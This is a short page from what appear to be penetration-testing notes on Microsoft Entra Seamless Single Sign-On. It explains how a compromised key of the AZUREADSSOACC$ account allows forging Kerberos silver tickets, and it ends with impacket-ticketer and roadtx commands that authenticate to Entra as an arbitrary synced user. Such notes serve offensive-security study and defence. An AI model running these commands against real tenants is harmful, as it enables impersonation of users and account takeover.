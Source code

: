 ```yaml
---
title: SSSO
---
```


[[notes/entra/index]] Seamless Single Sign-on automatically authenticates AD users to Entra on their domain-joined machine.

![SSSO flow ([source](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso-how-it-works?source=recommendations))](./ssso-flow.png)

When SSSO is enabled, the AD service account *AZUREADSSOACC$* is created and it's Kerberos key is shared with Entra.
During authentication the browser submits a service ticket to [autologon.microsoftazuread-sso.com](https://autologon.microsoftazuread-sso.com).

If the NT hash or AES key of *AZUREADSSOACC$* is compromised it is possible to create a [[notes/ad/silver-ticket]] for any AD user that is synced to Entra and authenticate to Entra as that user.
Create a silver ticket with [[notes/tools/impacket]] and use it to authenticate with [[notes/tools/roadtools-hybrid]] and [[notes/tools/roadtools]].

~~~ bash
impacket-ticketer -spn http/autologon.microsoftazuread-sso.com -domain corp.local -domain-sid $domainsid -nthash $azureadssoacc -user-id $userrid jdoeadm
krbtoken="$(python3 ./krbsso.py ./jdoeadm.ccache)"
roadtx interactiveauth -t corp.com --krbtoken "$krbtoken"
~~~
